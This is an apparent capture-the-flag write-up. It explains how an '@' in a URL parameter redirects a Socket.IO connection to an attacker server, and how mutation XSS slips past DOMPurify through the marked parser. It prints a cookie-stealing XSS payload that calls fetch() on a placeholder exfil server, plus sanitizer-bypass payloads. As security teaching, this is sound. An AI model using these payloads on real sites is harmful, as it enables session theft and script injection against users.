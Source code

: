 # CHATUWU:

 Challenge Setup:
- A chat server with different rooms
- A bot to accept URLs and an admin bot
- The flag is stored in the admin bot's cookie

We get a room based on certain query parameters set in the URL. Going through the source code, you find a ternary operation which decides what happens in the room:

```javascript
socket.on('msg', function (msg) {
    let item = document.createElement('li'),
        msgtext = `[${new Date().toLocaleTimeString()}] ${msg.from}: ${msg.text}`;
    room === 'DOMPurify' && msg.isHtml ? item.innerHTML = msgtext : item.textContent = msgtext;
    messages.appendChild(item);
    window.scrollTo(0, document.body.scrollHeight);
});
```

## The Problems:
1. You need to set the room to 'DOMPurify' to be able to set `innerHTML`, but if you do that, the `msg` elements are sanitized by DOMPurify first before emitting. So you need to be able to set it to the 'textContent' room to not filter the payload.
2. There is an `isHtml` variable, set by the backend server, which also needs to be `true` to allow editing `innerHTML`.

## Initial Attempt:
Having multiple query parameters of the same name is actually valid in HTML. It's not defined in the HTML spec exactly how this should be handled, so different URL parsers handle it differently. Some, like PHP, create an array of all the values, some only take the last occurrence, or use some other custom implementation.

Here, the client-side check which uses `URLSearchParams(location.search)` takes the last value, and the server socket.io either takes the first value or maybe checks all values. Thus, if you have a URL like this:

```
http://0.0.0.0:58000/?&room=DOMPurify&nickname=guest1369&room=textContent
```

It will connect to room 'textContent' but `query.get("room")` will return 'DOMPurify', and that is then used to set the room, thus potentially allowing `innerHTML` access if the `isHtml` check was not there.

## The Actual Solution:
A completely different approach is required. The socket.io URL is set client-side by using `location.search`, which according to the spec just searches for the first '?' in the URL passed, and everything after that (including the '?') is returned as the query string.

We find the attack of using '@' in the URI. This works because as per the spec (RFC 3986, section 3.2.1), this format is a valid (but deprecated) URL:

```
<scheme>://<user>:<password>@<host>:<port>/<url-path>
```

By including an '@' symbol in the nickname parameter, the attackers create a URL that looks like this:

```
http://127.0.0.1:58000/?nickname=x@attacker.com/&room=DOMPurify
```

When this URL is processed by `io(/${location.search})`, it becomes:

```
io(/?nickname=x@attacker.com/&room=DOMPurify)
```

### Socket.IO's Interpretation:
Socket.IO sees this as a connection request to `attacker.com` with the path `/&room=DOMPurify`. It ignores everything before the '@' symbol, treating it as username information.

This crafted URL serves two purposes:
a) It makes Socket.IO connect to the attacker's server instead of the legitimate server.
b) It still includes `room=DOMPurify` as a query parameter, which is used by the client-side code to determine how to handle messages (using `innerHTML`).

Thus, we just set up a socket.io server of our own to accept the connection, send this kind of URL to the bot to make it go to our server, give an XSS payload for the admin bot like:

```html
<img src=x onerror="fetch('https://[exfil server]/'+btoa(document.cookie))">
```

And get the flag.

### Why "?&" was needed (a guess): 
It was the syntax required for `URLSearchParams()` to correctly set the query object to pass the ternary check.

--- 

# Mutated XSS:
Parsing HTML Content and Markdown

Parsing HTML content involves a lot of complex steps. There are a lot of edge cases and caveats with different rules for many specific tags. There is also error correction built into the parsers to, for example, fix missing closing tags. Thus, different parsers might implement the same HTML code in different ways and produce very different outputs. This can change the HTML multiple times depending on the code.
Markdown Parsers and HTML Sanitizers

Markdown is no different. A Markdown parser is basically an watered down HTML parser with all the different tags and options which is still very complex with extended features 
and custom implementations.

On top of these are HTML sanitizers which take in dirty HTML and sanitize it by turning it into code it considers safe. Popular HTML sanitizers work by:

  -   First rendering the HTML into a sandboxed environment and creating a DOM tree
  -   Deleting the harmful nodes
  -  Then creating an HTML string back from that modified DOM

This prevents bypassing by using complex encoding schemes or bypasses in case a blacklist is used by the sanitizer, because people are creative and blacklists are not secure.

So, all this together causes Mutated XSS attacks to work in cases where the HTML is parsed multiple times and the innerHTML is edited. 
So what we can do for this attack is put the XSS payload in a way which looks safe for the sanitizer but when parsed by another parser the payload gets executed after being rendered into some unsafe DOM.
Example of an Attack

Like in this challenge, the payload was inserted into the id of a tag so was not removed by DOMPurify but after parsing through the marked parser it turned into an XSS payload because the marked parser prioritized code blocks before HTML. That is, if it found code blocks \`\`, it transformed the string inside the code block into \<code> tags and then the rest of the HTML.

So what the exploit did was put the XSS payload in the id of an element but closed the block just after the opening quote, like this: 

```
`<p x="`<img src=x onerror=alert(1)>"></p>
```

DOMPurify would not remove anything as nothing looks malicious in this, the malicious thing is in the id which cannot cause damage. But the marked parser saw the \`, converted them to code blocks,
leaving the rest of the things after the second \` as normal HTML which could be executed, something like 

```
<p><code>&lt;p id=&quot;</code><img src=x onerror=alert(1)>&quot;&gt;</p></p>
```

thus mutating the HTML to get XSS.

There are also many other ways mXSS can occur. Like this researcher showed https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss how 
mXSS can occur because some tags allow certain elements while others don't.
It shows why mXSS is so difficult to catch because it utilises such edge cases to bypass the sanitizer.

